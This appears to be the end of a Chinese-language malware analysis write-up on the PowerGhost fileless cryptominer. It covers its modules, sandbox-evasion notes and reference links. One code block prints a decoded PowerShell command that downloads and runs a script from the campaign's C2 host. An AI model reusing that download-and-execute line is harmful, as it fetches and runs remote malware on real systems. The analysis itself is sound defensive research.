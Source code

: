 其中经过编码的 PowerShell 代码经 `From Base64` -> `Decode text(UTF16LE)` 解码后为：

```
$ echo "SQB...A==" | base64 -d | iconv -f utf16le -t utf8
IEX ((new-object net.webclient).downloadstring('http://mail.to0ls.com:443/vercheck.ps1'))
```

也就是从 C2 服务器上下载执行 [vercheck.ps1](#vercheckps1)。

## cohernece.txt

好吧，流量包里的数据不全，我没法提取出完整的 `cohernece.txt`。

从别的地方得知文件使用 [Themida](https://www.oreans.com/Themida.php) 打包，本来还想找个解包方法，然后反编译分析一下呢，看来得放弃了。

关于文件行为，[这篇文章](https://securelist.com/a-mining-multitool/86950/)有一些简略的信息：

> 脚本下载了两个 PE 模块，logos.png 和 cohernece.txt。前者被保存到硬盘上，命名为 java-log-9527.log，是一个用于执行 DDoS 攻击的可执行文件。
>
> 文件 cohernece.txt 使用了软件保护工具 Themida，并检查是否在虚拟环境中执行。如果检查未检测到沙盒，则 cohernece.txt 将文件 java-log-9527.log 用于执行。

微步沙箱样本：[cohernece.txt:f90bcf5b649ebb61d1b2a1a973c04312e3e72a71d4393ccbb12b9fa593637d62](https://s.threatbook.com/report/file/f90bcf5b649ebb61d1b2a1a973c04312e3e72a71d4393ccbb12b9fa593637d62)

## ver.txt

样本：[ver.txt](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/ver.txt)。

病毒版本信息文件，这里是 `1.3`。算是比较老的版本，一些行为和功能与新版不太一样，但比较符合我遇到的那台主机情况。

## 参考

- [ThreatBook SandBox Report: vercheck.ps1(b09db8539a449f671eb2e3b73e573e82288d1fa0edbe001a7b8e8d982f36446c)](https://s.threatbook.com/report/file/b09db8539a449f671eb2e3b73e573e82288d1fa0edbe001a7b8e8d982f36446c)
- [ThreatBook SandBox Report: vercheck.ps1(4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5)](https://s.threatbook.com/report/file/4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5)
- [ThreatBook SandBox Report: antivirus[1].php(7c9f4dd19e10a964b683107e8d7c1409e1dc7873c141cdb130bd3326dd0f9980)](https://s.threatbook.com/report/file/7c9f4dd19e10a964b683107e8d7c1409e1dc7873c141cdb130bd3326dd0f9980)
- [ThreatBook SandBox Report: aantivirus03DHW5V7.php(d48a6910ee332526b10d077dc0194542e6639d5dc21188eb4f3e01c47108b966)](https://s.threatbook.com/report/file/d48a6910ee332526b10d077dc0194542e6639d5dc21188eb4f3e01c47108b966)
- [ANY.RUN: vercheck.ps1](https://app.any.run/tasks/e462cd67-38c3-46db-963c-6f940c1270c0#)
- [Securonix Threat Research Knowledge Sharing Series: Hiding the PowerShell Execution Flow](https://www.securonix.com/blog/hiding-the-powershell-execution-flow/)
- [WuKung病毒处置办法：Powershell无文件挖矿查杀方法](https://wukungt.github.io/2019/05/16/Powershell%E6%97%A0%E6%96%87%E4%BB%B6%E6%8C%96%E7%9F%BF%E6%9F%A5%E6%9D%80%E6%96%B9%E6%B3%95/)
- [Microsoft Learn: Windows Server/Windows/commands/regsvr32](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)
- [Windows与Linux双平台无文件攻击：PowerGhost挖矿病毒最新变种感染多省份](https://www.freebuf.com/articles/system/219715.html)
- [SECURELIST: A mining multitool](https://securelist.com/a-mining-multitool/86950/)
